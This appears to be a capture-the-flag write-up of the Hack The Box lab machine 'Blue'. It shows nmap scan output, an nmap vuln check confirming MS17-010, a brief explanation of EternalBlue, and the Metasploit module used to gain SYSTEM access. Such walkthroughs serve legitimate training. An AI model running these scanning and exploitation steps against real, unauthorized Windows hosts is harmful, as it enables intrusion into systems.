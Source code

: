 ```yaml
---
"title": "Hack The Box - Blue"
"date": 2020-03-08
"tags": ["windows", "easy", "eternalblue"]
"keywords": ["windows", "easy", "eternalblue"]
"author": "Ghostbyt3"
"description": "We are going to pwn Blue from Hack The Box."
"featured_image": "/img/htb-blue/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



![Untitled](/img/htb-blue/1.png)

We are going to pwn Blue from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/51](https://www.hackthebox.eu/home/machines/profile/51)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:
```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 SP1 (96%), Microsoft Windows Server 2008 SP2 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1 or Windows Server 2008 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 SP1 (96%), Microsoft Windows 7 Ultimate (96%), Microsoft Windows 8.1 (96%), Microsoft Windows 8.1 Update 1 (96%), Microsoft Windows Vista or Windows 7 SP1 (96%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1m33s, deviation: 1s, median: 1m32s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-03-08T16:52:23+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-08T16:52:25
|_  start_date: 2020-03-08T16:46:59

```

The name of the box is hint, it may be ``eternalblue`` exploit.

We can check that by running nmap script.
>nmap -A -p445 --script vuln 10.10.10.40

```
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```
So my guess is correct.
```
What Is EternalBlue?

EternalBlue is an exploit most likely developed by the NSA as a former zero-day. It was released in 2017 by the Shadow Brokers, a hacker group known for leaking tools and exploits used by the Equation Group, which has possible ties to the Tailored Access Operations unit of the NSA.

EternalBlue, also known as MS17-010, is a vulnerability in Microsoft's Server Message Block (SMB) protocol. SMB allows systems to share access to files, printers, and other resources on the network. The vulnerability is allowed to occur because earlier versions of SMB contain a flaw that lets an attacker establish a null session connection via anonymous login. An attacker can then send malformed packets and ultimately execute arbitrary commands on the target.
```

>https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue

>use exploit windows/smb/ms17_010_eternalblue

![Untitled](/img/htb-blue/2.png)

After Some attempts it worked.[br/](br/)
![Untitled](/img/htb-blue/3.png)[br/](br/)
I got Authority\System directly.

